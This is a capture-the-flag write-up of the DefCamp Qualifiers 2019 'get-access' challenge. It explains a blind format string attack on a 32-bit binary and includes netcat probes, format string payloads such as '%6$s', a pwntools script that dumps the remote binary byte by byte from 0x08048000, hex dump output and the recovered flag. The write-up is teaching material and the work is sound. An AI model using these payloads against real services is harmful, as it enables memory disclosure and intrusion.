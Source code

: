 ```yaml
---
layout: post
title:  "DefCamp Qualifiers 2019: get-access"
date:   2019-09-08 17:00:00 +0800
categories: pwn
tags: DefCamp-Qualifiers-2019
---
```


A classic blind format string challenge where you had to dump the entire binary to get the flag.

### Challenge

* **Category:** pwn
* **Points:** 105
* **Solves:** 68

> Can you pwn this?
>
>
> Target: 206.81.24.129:1337
>
> Author: Andrei

### Solution

Before continuing, I highly suggest watching [LiveOverflow's video of the ESPR challenge from 33c3ctf](https://www.youtube.com/watch?v=XuzuFUGuQv0) if you aren't familiar with blind format string attacks. That is basically a harder version of this challenge and uses a 64-bit binary, whereas this challenge incorporates a 32-bit binary.

To start with, right off the bat we see a format string vulnerability in the `username` field. The `password` is what shows up on the stack (unaligned) at the second half of the 5th offset and onwards.

```c
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/defcamp-2019/pwn/get-access$ nc 206.81.24.129 1337
You must login first before get the flag
Enter username:0x%x 0x%x 0x%x 0x%x 0x%x 0x%x 0x%x 0x%x
Enter password:AAAABBBBCCCCDDDD
0xffd9dc76 0x2a 0x8ec2008 0x0 0x4141dd14 0x42424141 0x43434242 0x44444343 does not have access!
```

So we know we can control the 6th offset by padding our password input with two characters before it. What that means is if we enter the password `BBAAAA`, we should see `0x41414141` at `%6$x`.

```c
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/defcamp-2019/pwn/get-access$ nc 206.81.24.129 1337
You must login first before get the flag
Enter username:0x%6$x
Enter password:BBAAAA
0x41414141 does not have access!
```

I also check to make sure we actually have a 32-bit binary (the `0xffxxxxxx` address in the first offset is a dead giveaway) by also trying with `%lx` instead of just `%x`. `%lx` prints out 64-bit addresses.

```c
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/defcamp-2019/pwn/get-access$ nc 206.81.24.129 1337
You must login first before get the flag
Enter username:0x%lx 0x%lx 0x%lx 0x%lx
Enter password:
0xff99e676 0x2a 0x8b44008 0x0 does not have access!
```

Since it still prints out 32-bit addresses, we know the binary is 32-bit. We can know that ASLR is enabled because the address at offset one always changes each time. We also know that 32-bit libc addresses usually start with `0xff` so long as PIE is disabled.

Knowing all of this, and the fact that we have a blind format string, the one thing we know is that all 32-bit linux binaries have a base address `0x08048000`. What we can then do is start at that address and dump out the binary byte by byte. Note that this ***ONLY*** works if PIE is disabled, as otherwise the base address of the binary would be randomized as well.

What we want to do is instead of putting `0x41414141` into `%6$x`, we want to put `0x08048000` into `%6$x`, and then dump the binary by doing `%6$s` which will dereference `0x08048000`. A quick test shows that it works.

```python
#!/usr/bin/env python2

from pwn import *

p = remote('206.81.24.129', 1337)

p.sendlineafter(':', '%6$s')
p.sendlineafter(':', 'AA' + p32(0x08048000))

print p.recvline()
```
```c
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/defcamp-2019/pwn/get-access$ ./exploit.py
[+] Opening connection to 206.81.24.129 on port 1337: Done
\x7fELF does not have access!

[*] Closed connection to 206.81.24.129 port 1337
```

It successfully prints out `\x7fELF` which are the four bytes every single Linux ELF binary starts out with.

Now we just write a script that will dump bytes from the binary out starting at the base address `0x08048000`, then move the address up by the number of bytes dumped, then rinse and repeat. However there are some issues that we have to deal with when dumping the binary this way.

* Since we are exploiting a format string vulnerability here, remember that `printf` will keep printing until it sees a NULL byte, but won't print out the NULL byte itself. This means that we must include our own NULL byte after each leak, so that when we increase the current address by the number of bytes dumped, `printf` doesn't get stuck on the NULL byte that it doesn't print out. If we don't do this, `printf` gets stuck in an infinite loop where it stays stuck on the address that contains a NULL byte forever.

* The second problem is that `fgets` or `scanf` or whatever the binary is using to take in user input will stop at newlines. What this means is that when we do `%6$s` in the username, if the format string ends up dereferencing it and finding a `\n`, then the input function will stop there even if there is more data to leak after the newline. My solution to this isn't the best, but what I did was just take the leak, and if it contains any newline characters, just change the leak to a NULL byte. It causes the binary to be slightly corrupted but remember, we aren't trying to run the binary here. We should just be able to figure out how to exploit it using the code.

The following script does the job:
```python
#!/usr/bin/env python2

from pwn import *

HOST, PORT = '206.81.24.129', 1337
context.log_level = 'critical'

base = 0x08048000 # base addr of 32 bit binaries without PIE

while True:
    leak = "" # Set leak to an empty string
    with open("output.raw", "a") as f:
        p = remote(HOST, PORT)
        p.sendlineafter(':', '%6$s') # (base + len(leak)) is at offset 6, so %6$s is used
        p.sendlineafter(':', 'AA' + p32(base + len(leak))) # Padding required to place the address right
        leak = p.recvuntil('does')[:-5] + '\x00' # Must add NULL byte otherwise printf will hang
        p.close()

        # Must also replace newlines with \x00, it will cause the binary to be slightly corrupted
        # which doesn't matter because the flag is in the .bss segment for this binary
        if '\n' in leak:
            leak = "\x00"

        # Write to file
        f.write(leak)
        print leak.encode('hex') + " @ " + hex(base)
        base += len(leak)
```

After running this script for around 5-10 minutes (I didn't keep count), I checked the binary with `xxd` and saw this.
```c
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/defcamp-2019/pwn/get-access$ xxd output.raw
00000000: 7f45 4c46 0101 0100 0000 286e 756c 6c29  .ELF......(null)
00000010: 0000 0300 0100 0000 c085 0408 3400 0000  ............4...
....
....
00000a70: 0000 0000 0000 0059 6f75 206d 7573 7420  .......You must
00000a80: 6c6f 6769 6e20 6669 7273 7420 6265 666f  login first befo
00000a90: 7265 2067 6574 2074 6865 2066 6c61 6700  re get the flag.
00000aa0: 456e 7465 7220 7573 6572 6e61 6d65 3a00  Enter username:.
00000ab0: 456e 7465 7220 7061 7373 776f 7264 3a00  Enter password:.
00000ac0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000ad0: 0000 0046 6c61 6720 6973 3a20 4443 5446  ...Flag is: DCTF
00000ae0: 7b42 4438 4336 3634 4537 3445 4239 3432  {BD8C664E74EB942
00000af0: 3232 3545 4642 3734 4346 4437 3645 4334  225EFB74CFD76EC4
00000b00: 4232 4644 4130 4333 3741 3244 3536 3742  B2FDA0C37A2D567B
00000b10: 3730 3741 4131 3430 3737 3831 4646 3737  707AA1407781FF77
00000b20: 467d 0000 006f 6573 206e 6f74 2068 6176  F}...oes not hav
00000b30: 6520 6163 6365 7373 2100 0001 1b03 3b38  e access!.....;8
00000b40: 0000 0006 0000 0084 f9ff ff54 0000 007f  ...........T....
00000b50: fbff ff78 0000 0091 fbff ff98 0000 00b9  ...x............
00000b60: fbff ffb8 0000 0064 feff fff4 0000 00c4  .......d........
00000b70: feff ff40 0100 0014 0000 0000 0000 0001  ...@............
00000b80: 7a52 0001 7c08 011b 0c04 0488 0100 0020  zR..|..........
00000b90: 0000 001c 0000 0028 f9ff fff0 0000 0000  .......(........
00000ba0: 0e08 460e 0c4a 0f0b 7404 7800 3f1a 3b2a  ..F..J..t.x.?.;*
00000bb0: 3224 221c 0000 0040 0000 00ff faff ff12  2$"....@........
00000bc0: 0000 0000 410e 0885 0242 0d05 4ec5 0c04  ....A....B..N...
00000bd0: 0400 001c 0000 0060 0000 00f1 faff ff28  .......`.......(
00000be0: 00
```

Opening the output file in `vim` gives us the flag.

Flag: `DCTF{BD8C664E74EB942225EFB74CFD76EC4B2FDA0C37A2D567B707AA1407781FF77F}`
